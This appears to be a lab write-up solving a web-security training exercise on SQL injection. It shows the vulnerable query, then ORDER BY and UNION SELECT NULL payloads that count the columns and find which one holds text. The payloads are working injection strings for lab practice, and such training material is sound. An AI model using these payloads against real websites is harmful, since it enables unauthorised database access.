 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234052779-081854cf-469c-41be-b3fa-df4097769882.png)

## Solution :

Query made - 
```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

**ORDER BY 4** return an error, means there are 3 columns being queried and retreived by the web application.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 4 --
```

![image](https://user-images.githubusercontent.com/67383098/234053894-e8d616b7-87bc-4dc0-92b7-fa1af1ea43fe.png)


#### Determine the column containng text data -

![image](https://user-images.githubusercontent.com/67383098/234054704-89d32e1a-909b-434f-a6e3-46975b9ba2ad.png)


We need to use the UNION SELECT payload  using 3 NULL values. Try thetring value *33eWHU* in one NULL value to see if it returns that string. If it does , then it means the column contains string data else it is not sting data.

**33eWHU in 1st NULL -**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT '3eWHU',NULL,NULL --
```

![image](https://user-images.githubusercontent.com/67383098/234055682-cf669cee-400a-466a-8892-7a64b10ee3a3.png)

**33eWHU in 2nd NULL -**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'33eWHU',NULL
```

![image](https://user-images.githubusercontent.com/67383098/234055016-49ef404e-457f-4e51-b9bf-b72e2b73872a.png)

![image](https://user-images.githubusercontent.com/67383098/234056709-ac749d4f-ac32-4df6-be18-4242a659d782.png)

![image](https://user-images.githubusercontent.com/67383098/234056775-01164b40-3359-4444-bdf8-4beb71aae69a.png)



